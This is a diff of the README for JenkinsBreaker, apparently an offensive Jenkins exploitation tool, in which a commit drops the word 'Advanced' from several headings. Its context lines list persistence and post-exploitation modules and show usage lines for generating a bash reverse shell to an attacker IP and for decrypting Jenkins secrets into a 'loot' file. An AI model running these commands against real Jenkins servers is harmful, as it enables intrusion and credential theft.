

Before and after one commit to ridpath/heaplessNights, a Markdown page: JenkinsBreaker/README.md, 3 parts joined by grey strips. GitHub-like rendering.

Commit message:
docs: update README wording

````diff
--- a/JenkinsBreaker/README.md
+++ b/JenkinsBreaker/README.md
@@ -60,11 +60,11 @@ Key goals:
 - **Persistence Techniques** (Cron Jobs, Jenkins Pipelines)
 - **Modular Exploit Loading** (`exploits/` Directory)
 - **Integrated Jenkins Lab** for CVE testing and validation
-- **Advanced Modules (New)**:
+- **Modules (New)**:
   - Textual TUI – Interactive terminal interface with real-time exploitation
   - Web UI – Browser-based dashboard with FastAPI + WebSocket support
   - JenkinsFuzzer – Pipeline misconfiguration discovery (8 fuzzing modules)
-  - JWT Breaker – Advanced JWT cryptanalysis with algorithm confusion
+  - JWT Breaker – JWT cryptanalysis with algorithm confusion
   - Plugin Fingerprint Engine – CVE correlation with 40+ vulnerability mappings
   - Persistence Manager – 7 post-exploitation persistence mechanisms
 
@@ -238,7 +238,7 @@ python3 JenkinsBreaker.py --generate-shell bash --lhost YOUR_IP --lport 4444
 python3 JenkinsBreaker.py --list-cves
 ```
 
-### Advanced Modules
+### Modules
 
 ```bash
 # Launch Textual TUI
@@ -297,9 +297,9 @@ python3 decrypt.py --path /var/jenkins_home --export-json loot.json --reveal-sec
 - Python dependencies installed via pip with --break-system-packages flag
 - Full exploit chain tested: RCE → credential extraction → decryption → JSON export
 
-## Advanced Modules
+## Modules
 
-JenkinsBreaker now includes 6 advanced modules for comprehensive exploitation and post-exploitation workflows:
+JenkinsBreaker now includes 6 modules for comprehensive exploitation and post-exploitation workflows:
 
 ### 1. Textual TUI (`tui.py`)
 
````
Also changed, not shown: other parts of JenkinsBreaker/README.md (+2 -2 lines).
